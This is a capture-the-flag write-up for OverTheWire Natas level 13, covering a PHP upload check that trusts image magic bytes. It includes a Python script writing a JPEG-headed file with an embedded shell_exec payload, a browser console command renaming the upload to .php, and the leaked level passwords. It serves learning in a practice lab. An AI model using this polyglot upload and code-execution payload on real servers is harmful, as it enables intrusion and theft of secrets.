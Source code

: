 # Natas Level 12 → Level 13 Fake image file signature

## Previous Flag
<b>trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC</b>

## Goal
Username: natas13<br>
URL: http://natas13.natas.labs.overthewire.org<br>

For security reasons, we now only accept image files!<br>
Choose a JPEG to upload (max 1KB):<br>
Choose File     No File Chosen<br>
Upload File

## What I learned
```
exif_imagetype() not check file extension only actual binary content (magic bytes) of file
Bypasses:
    Upload a valid image file with PHP code embedded after the image data
    Ensure the header bytes look like a JPEG or PNG
    Rename it to .php (if allowed) or something like .php.jpg
    Trigger the PHP execution by accessing the uploaded file directly
```
<br>

| Magic Bytes       | File Type                        | Description                                     |
|-------------------|----------------------------------|-------------------------------------------------|
| <b>FF D8 FF E0</b>| JPEG (JFIF)                      | JPEG image with JFIF metadata                   |
| FF D8 FF E1       | JPEG (Exif)                      | JPEG image with EXIF metadata                   |
| FF D8 FF DB       | JPEG                             | JPEG with quantization table                    |
| FF D9             | JPEG                             | End of Image (EOI) marker                       |
| 89 50 4E 47 0D 0A 1A 0A | PNG                        | PNG image                                       |
| 47 49 46 38 37 61 | GIF87a                           | GIF image (older format)                        |
| 47 49 46 38 39 61 | GIF89a                           | GIF image (newer format)                        |
| 42 4D             | BMP                              | Bitmap image (BMP)                              |
| 25 50 44 46       | PDF                              | PDF file                                        |
| 50 4B 03 04       | ZIP / DOCX / PPTX / XLSX         | ZIP archive or MS Office Open XML formats       |
| 52 61 72 21 1A 07 00 | RAR                           | RAR archive (v1.5+)                             |
| 7F 45 4C 46       | ELF                              | Executable and Linkable Format (Linux binary)   |
| 4D 5A             | EXE / DLL                        | Windows Executable (MZ header)                  |
| 3C 3F 70 68 70    | PHP                              | PHP script starting with `<?php`                |
| EF BB BF          | UTF-8 BOM                        | Byte Order Mark for UTF-8 encoded files         |
| D0 CF 11 E0 A1 B1 1A E1 | DOC / XLS / PPT            | Older MS Office binary formats                  |
| 00 61 73 6D       | WASM                             | WebAssembly binary                              |

## Solution
```
Click View source code
http://natas13.natas.labs.overthewire.org/index-source.html

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<?php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 👀
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

# Create new test.png ⌨️

# Fake an image file signature
#!/bin/python

with open("test.php", "wb") as f:
    # Write JPEG header bytes
    f.write(b'\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01\x01\x00\x00\x01\x00\x01\x00\x00')
    # Write PHP code
    f.write(b'<?php echo shell_exec("cat /etc/natas_webpass/natas14"); ?>')
    # Write JPEG EOI marker
    f.write(b'\xFF\xD9')

# Open in Notepad++
ÿØÿàshell_exec("cat /etc/natas_webpass/natas14"); ⌨️

# Open in hexdump
@trungdullc ➜ /workspaces/01noobHacker (main) $ hexdump static/test.png ⌨️
0000000 d8ff e0ff 6873 6c65 5f6c 7865 6365 2228
0000010 6163 2074 652f 6374 6e2f 7461 7361 775f
0000020 6265 6170 7373 6e2f 7461 7361 3431 2922
0000030 003b                                   
0000031

# Modify hidden input field in browser’s javascript console
$('input[name="filename"]').val("test.php") ⌨️

# Upload payload (test.png)
The file upload/hrpcjtt3z1.php has been uploaded
����.JFIF....z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ �� 🔐
```

## Flag
<b>z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ</b>

## Continue
[Continue](/overthewire/Natas1314.md)